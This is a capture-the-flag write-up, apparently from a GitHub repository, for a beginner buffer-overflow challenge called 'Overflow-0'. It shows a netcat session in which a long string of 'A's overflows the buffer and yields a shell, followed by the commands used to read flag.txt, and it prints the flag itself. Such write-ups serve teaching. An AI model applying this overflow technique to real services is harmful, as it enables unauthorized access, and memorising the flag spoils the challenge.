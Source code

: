 [< Back to All CTFs](https://github.com/KrisLloyd/Python/tree/master/CTF#ctf-solves)
***

# Overflow-0

![Overflow-0](Overflow0.PNG)

### Challenge:
##### You shouldn't need hehlp with this one
##### nc myctf.ca 10005
##### 100 Points
##### Files: 
* [coffer-overflow-0](coffer-overflow-0)
* [coffer-overflow-0.c](coffer-overflow-0.c)

### Solve:

The challenge provided 2 files and a port on a server. The remote end of the server I assume contained the program that was provided, however I didn't even need to open the 2 provided files.

The name of the challenge suggests a buffer overflow attack is needed to obtain the flag, so the first thing I did was to connect to the remote server and attempt to fill the buffer to cause an overflow:

```
ncat myctf.ca 10005
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
ls
Makefile
bin
coffer-overflow-0
coffer-overflow-0.c
dev
flag.txt
lib
lib32
lib64
cat flag.txt
flag{b0ffer_0verf10w_3asy_as_123}
```
The program's buffer was over filled, which ultimatly provided access to the shell of the host. The flag was in the root directory.

### Flag
```
flag{b0ffer_0verf10w_3asy_as_123}
```
